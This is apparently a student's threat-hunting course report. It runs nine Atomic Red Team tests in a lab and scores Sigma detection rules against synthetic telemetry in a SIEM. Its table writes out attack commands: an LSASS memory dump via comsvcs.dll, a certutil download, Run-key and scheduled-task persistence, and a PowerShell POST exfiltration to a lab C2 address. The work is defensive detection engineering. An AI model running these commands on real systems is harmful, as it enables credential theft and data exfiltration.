


# Week 9 — Atomic Red Team: Running the Emulation Plan and Scoring It in a SIEM

## Project and weekly task

Project topic: Detecting Spearphishing Attacks in Corporate Networks. Student: Danial Rahman. Group: CS-2421. Course: Introduction to Threat Hunting (ITH). Assignment 6, part 1. Date: 11 November 2026.

Section 3.3 of the 2026–2027 syllabus sets the Week 9 practice task as: *run selected atomic tests (e.g., T1059, T1003); record and analyze the test results in a SIEM,* with the Atomic Red Team wiki and GitHub repository as recommended reading. This increment runs the nine Atomic tests from the Week 8 plan, including the two the syllabus names (T1059.001 and T1003.001). It then loads the resulting telemetry into a SIEM store and scores every Week 7 and Week 9 detection rule against every test.

## Atomic Red Team in brief

Atomic Red Team (Red Canary) is a library of small, single-purpose tests, each mapped to one ATT&CK technique. Each test is a YAML entry with a stable `auto_generated_guid`, an executor (`command_prompt`, `powershell`, `manual`), input arguments, prerequisites and a cleanup command. They are run with the **Invoke-AtomicRedTeam** PowerShell module (`Invoke-AtomicTest T1059.001 -TestGuids <guid>`). The approach is *test → look for the telemetry → fix the detection*, and the unit of measurement is "did the SIEM see this technique?", not "did the attack succeed?".

## Tests selected (pinned)

`scripts/fetch_atomics.py` reads the Week 8 plan, downloads each technique's YAML from `redcanaryco/atomic-red-team` at commit **a0e3f9bc69**, checks that each GUID matches the plan, and writes `atomics/selected_tests.json`. The exact commands therefore come from the real tests and are not retyped by hand.

| Step | Technique | Atomic test | Executor | What it really runs |
|---|---|---|---|---|
| 1 | T1566.001 | #1 Download Macro-Enabled Phishing Attachment | powershell | `Invoke-WebRequest` of `PhishingAttachment.xlsm` to `%TEMP%` |
| 2 | T1204.002 | T1566.001 #2 Word spawned a command shell and used an IP address | powershell | Invoke-MalDoc: Word macro writes `art.jse` and runs `Shell "ping 8.8.8.8"` |
| 3 | T1059.001 | #17 PowerShell Command Execution | command_prompt | `powershell.exe -e <base64>` |
| 4 | T1105 | #7 certutil download (urlcache) | command_prompt | `cmd /c certutil -urlcache -split -f <url>` |
| 5 | T1547.001 | #1 Reg Key Run | command_prompt | `REG ADD HKCU\...\Run /V "Atomic Red Team"` |
| 6 | T1053.005 | #2 Scheduled task Local | command_prompt | `SCHTASKS /Create /SC ONCE /TN spawn` |
| 7 | T1003.001 | #2 Dump LSASS.exe Memory using comsvcs.dll | powershell (admin) | `rundll32 comsvcs.dll, MiniDump <lsass pid> lsass-comsvcs.dmp full` |
| 8 | T1560.001 | #4 Compress Data and lock with password (7zip) | command_prompt | `7z.exe u archive.7z *txt -pblue` |
| 9 | T1041 | #1 C2 Data Exfiltration | powershell | `Invoke-WebRequest -Method POST` to the lab C2 `198.51.100.25:8080` |

## Execution: runbook and what is in this repository

`runbook/Invoke-Week9Atomics.ps1` is the lab runbook. It refuses to run on any host other than `LAB-WIN10-01`. For each step it fetches prerequisites, runs the test by GUID, writes UTC start and end times to `run_log.csv`, waits for the forwarder, runs the cleanup command, and pauses 5 minutes before the next step.

**About the data.** This repository runs in a Linux container and cannot run Windows tests. As in Weeks 5–7, the telemetry in `data/atomic_run_telemetry.ndjson` is **synthetic**, but it is built mechanically from the real tests by `scripts/generate_telemetry.py`:

- Each technique event uses the test's **actual command line**, with its default input arguments filled in.
- Each command is wrapped the way Invoke-AtomicRedTeam launches it: `cmd.exe /c …` for `command_prompt` and `powershell.exe & {…}` for `powershell`.
- A benign **baseline** is added: Update-Help, the Teams updater writing its Run key, an admin creating a backup task, 7-Zip without a password, a user saving a macro workbook from Excel, and the approved FIN-WS03 report automation from Week 7.

Every event carries a ground-truth label, `_truth`, with one of four values: `technique`, `proxy` (how the test stands in for the technique), `harness` (Invoke-AtomicRedTeam itself) or `baseline`. The label is used only for scoring; the queries never read it. After a real lab run, replace the NDJSON with a Splunk export and `run_log.csv` with the runbook's log, then re-run the scripts.

## Recording the results in a SIEM

The pipeline is the same as in Week 7: Sigma rule → pySigma → Splunk SPL (`queries/*.spl`) and SQLite (`queries/*.sql`). This week the **Sysmon pipeline is applied to both backends**, so each query carries its EventID (1 process, 3 network, 11 file, 13 registry) and all event types fit in one table. `scripts/run_siem.py` loads the 42 events into SQLite and runs all 12 queries. Each match is attributed to the Atomic step whose UTC window from the run log contains it, which is how a real purple-team exercise scores results. Full log: `docs/execution_output.txt`.

Rule set (`rules/`):

- **Week 7, unchanged:** CAR-2014-04-003 raw, CAR-2014-04-003 tuned, CAR-2013-02-003.
- **Week 9, new:**
  - `w9_office_suspicious_child`
  - `w9_powershell_encoded_any_parent`
  - `w9_certutil_download`
  - `w9_run_key_set` (Sysmon 13)
  - `w9_schtasks_create_from_shell`
  - `w9_lsass_dump_comsvcs`
  - `w9_archive_with_password`
  - `w9_macro_doc_written_by_non_office` (Sysmon 11)
  - `w9_powershell_external_connection` (Sysmon 3)

## Results



| Step | Technique | Atomic test | Week 7 rules | Week 7 + Week 9 rules | Detected by |
|---|---|---|---|---|---|
| 1 | T1566.001 | T1566.001 #1 | MISSED (harness only) | PARTIAL | `w9_macro_doc_written_by_non_office`, `w9_powershell_external_connection` |
| 2 | T1204.002 | T1566.001 #2 | MISSED (harness only) | DETECTED | `w9_office_suspicious_child` |
| 3 | T1059.001 | T1059.001 #17 | DETECTED | DETECTED | `w7_car_2014_04_003_powershell`, `w9_powershell_encoded_any_parent` |
| 4 | T1105 | T1105 #7 | MISSED | DETECTED | `w9_certutil_download` |
| 5 | T1547.001 | T1547.001 #1 | MISSED | DETECTED | `w9_run_key_set` |
| 6 | T1053.005 | T1053.005 #2 | MISSED | DETECTED | `w9_schtasks_create_from_shell` |
| 7 | T1003.001 | T1003.001 #2 | MISSED (harness only) | DETECTED | `w9_lsass_dump_comsvcs` |
| 8 | T1560.001 | T1560.001 #4 | MISSED | DETECTED | `w9_archive_with_password` |
| 9 | T1041 | T1041 #1 | MISSED (harness only) | DETECTED | `w9_powershell_external_connection` |



- **Week 7 rules only:** 1 of 9 tests detected, with 1 false positive (the approved FIN-WS03 automation).
- **Week 7 + Week 9 rules:** 8 detected, 1 partial and 0 missed, with 4 false positives on the baseline.

## Analysis: what the Atomic tests taught us

1. **The Week 7 tuned rule failed both of the predictions it was written for.** The plan expected CAR-2014-04-003 *tuned* to catch step 3, but it matched nothing. There were two reasons. First, the parent of the test's PowerShell is `cmd.exe`, not Office. Second, the test passes `-e`, while the Week 7 rule looks for `-enc`, and PowerShell accepts *any* unambiguous prefix of `-EncodedCommand`. Tuning for precision on four synthetic records had made the rule brittle. `w9_powershell_encoded_any_parent` covers all the short forms and any parent.
2. **"Office spawns a shell" is too narrow.** The plan expected CAR-2013-02-003 to catch step 2. In the real Atomic test the macro runs `ping.exe` **directly from WINWORD.EXE**, with no `cmd.exe` in between, so the rule saw nothing. `w9_office_suspicious_child` widens the child list to script hosts and LOLBins. It also filters the FIN-WS03 automation by its command line, which is the false positive found in Week 7.
3. **A rule can fire on the test harness and still miss the technique.** Raw CAR-2014-04-003 matched in 5 of the 9 windows. In 4 of them it only matched the `powershell.exe & {…}` wrapper that Invoke-AtomicRedTeam spawns. A naive scoring of "anything fired in the window" would have reported 5/9 instead of 1/9. Labelling harness events separately is what keeps the score honest.
4. **Step 1 is only partial.** Both rules that fired matched how the Atomic test *emulates* delivery, a PowerShell download of an `.xlsm` file, not how a phishing email really lands through Outlook. A real test of T1566.001 needs mail-gateway logs and an Outlook-written attachment. This is recorded as a gap and not counted as a detection.
5. **Coverage costs false positives.** The 9 new rules brought 3 new benign matches: the Teams updater Run key, an admin's backup task, and Update-Help reaching Microsoft. Each one needs an allowlist or a baseline per host, and that is the next tuning step. The persistence and network rules are deliberately `medium` or `low` severity: they are hunting leads, not alerts.

## Gaps kept open

- **Sysmon 10 (process access to lsass.exe)** is generated but no rule uses it. Our LSASS rule depends on the comsvcs command line, so NanoDump-style tools (Atomic T1003.001 #4) would evade it.
- **Security 4698 and PowerShell 4104** are not used by any rule yet.
- The T1041 rule only checks "PowerShell talks to a non-RFC1918 address". It does not see process-less exfiltration (browser, BITS) or an internal staging host.

## Reproduce

```bash
cd week9
python3 -m pip install pyyaml matplotlib pysigma pysigma-backend-splunk pysigma-backend-sqlite pysigma-pipeline-sysmon
python3 scripts/fetch_atomics.py        # pinned Atomic YAML -> atomics/selected_tests.json (needs network)
python3 scripts/generate_telemetry.py   # -> data/atomic_run_telemetry.ndjson, data/run_log.csv
python3 scripts/convert_rules.py        # Sigma -> queries/*.spl + *.sql
python3 scripts/run_siem.py             # execute + score (stdlib only)
python3 scripts/make_figures.py
```

In the Splunk lab, ingest the NDJSON (or the real export) into a Sysmon index and paste `queries/*.spl` into Search & Reporting.

## References

- [R1] Red Canary: Atomic Red Team, commit a0e3f9bc69. https://github.com/redcanaryco/atomic-red-team
- [R2] Invoke-AtomicRedTeam wiki. https://github.com/redcanaryco/invoke-atomicredteam/wiki
- [R3] MITRE CAR: CAR-2014-04-003, CAR-2013-02-003. https://car.mitre.org/
- [R4] SigmaHQ / pySigma. https://github.com/SigmaHQ/pySigma
- [R5] LOLBAS: Certutil, comsvcs. https://lolbas-project.github.io/
- [R6] Microsoft: about_PowerShell_exe (`-EncodedCommand` abbreviations). https://learn.microsoft.com/powershell/module/microsoft.powershell.core/about/about_powershell_exe
